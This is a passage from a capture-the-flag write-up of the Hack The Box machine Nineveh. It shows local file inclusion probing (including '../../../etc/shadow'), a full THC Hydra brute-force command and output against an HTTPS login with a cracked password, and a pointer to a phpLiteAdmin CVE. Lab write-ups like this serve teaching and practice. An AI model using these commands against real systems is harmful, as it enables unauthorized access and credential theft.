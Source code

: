 Manage page appears to be under construction containing no info whatsoever, except a note for a dev.
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt
```HTML
        <pre>
        	<li>Have you fixed the login page yet! hardcoded username and password is really bad idea!</li>
        	<li>check your serect folder to get in! figure it out! this is your challenge</li>
        	<li>Improve the db interface.
          	<small>~amrois</small>
        	</pre>
      	</pre>
```
Interesting url, eh? Although trying LFI with ``../../../etc/shadow`` or anything else gives no result.
```HTML
<pre>No Note is selected.
```
BUUUT, trying http://10.10.10.43/department/manage.php?notes=secret/ninevehNotes.txt gives something different.
```HTML
<pre>
<pre><br />
<b>Warning</b>:  include(secret/ninevehNotes.txt): failed to open stream: No such file or directory in <b>/var/www/html/department/manage.php</b> on line <b>31</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'secret/ninevehNotes.txt' for inclusion (include_path='.:/usr/share/php') in <b>/var/www/html/department/manage.php</b> on line <b>31</b><br />
</pre>
</pre>
```
So there must some sort of filter that blocks local file inclusion, but apparently name ``ninevehNotes`` is whitelisted, so it tries to pull it up. This info will be very useful on a different stage. Meanwhile, let's check on ssl website.

## Database
### THC Hydra again
Same procedure, just don't forget to change ``https-post-form`` and force SSL.
```
root@kingpin:~# hydra -l adm -P /usr/share/wordlists/rockyou.txt.gz 10.10.10.43 -v https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password:H=Cookie: PHPSESSID=gbva847ji81osirul39t7vouj2;" -ssl
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2017-12-06 14:01:53
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-forms://10.10.10.43:443//db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password:H=Cookie: PHPSESSID=gbva847ji81osirul39t7vouj2;
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 240.00 tries/min, 240 tries in 00:01h, 14344159 to do in 996:08h, 16 active
[STATUS] 238.67 tries/min, 716 tries in 00:03h, 14343683 to do in 1001:40h, 16 active
[443][http-post-form] host: 10.10.10.43   login: adm   password: password123
```
### phpLiteAdmin
The most glaring thing on the page would be the version of the db: phpLiteAdmin 1.9. And there is a [sweet CVE](https://www.exploit-db.com/exploits/24044/) for it. Basically, the vuln is that it is possible to force PHP file extension to a db file.
